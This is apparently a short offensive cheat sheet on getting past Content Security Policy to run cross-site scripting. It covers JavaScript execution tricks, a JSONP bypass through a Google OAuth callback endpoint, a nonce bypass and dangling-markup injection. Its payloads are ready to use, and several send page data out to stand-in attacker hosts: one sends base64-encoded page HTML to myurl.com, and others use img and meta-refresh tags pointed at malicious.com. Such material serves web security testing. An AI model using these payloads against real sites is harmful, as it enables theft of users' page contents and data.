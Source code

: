 # Content Security Policy

Sanitize javascript code execution to limit XSS risks

## Keys
- default-src
- img-src'
- script-src
- style-src 
- report-uri
- font-src
- frame-src 
- media-src 
- object-src 


## Load the page before action
`setTimeout()` is very useful when something require the entire page to load before the code is being executed
```js
setTimeout(function(){
	//code here
},1000); //Time in ms here
```
```js
setInterval()

Function('code')
.prototype.constructor('code')
```

## Bypass JSONP : 
JSONBee has pre created payloads : https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt 

##### Endpoint
```
https://accounts.google.com/o/oauth2/revoke?callback=CODE_HERE
```
#### Example
```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location=''.concat('https://myurl.com/?c=', btoa(document.body.innerHTML));"></script>
```

## Nonce Bypass
```html
<script nonce="VALUE_HERE">alert(1)</script>
```

## Dangling markup
In dangling markup, you want to not terminate the string from your payload to compromise everithing in between your payload and the following 
```
" ' `
```

```html
<img src='http://malicious.com/?c=
<meta http-equiv="refresh" content='4; URL=https://malicious.com/?c=
```
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection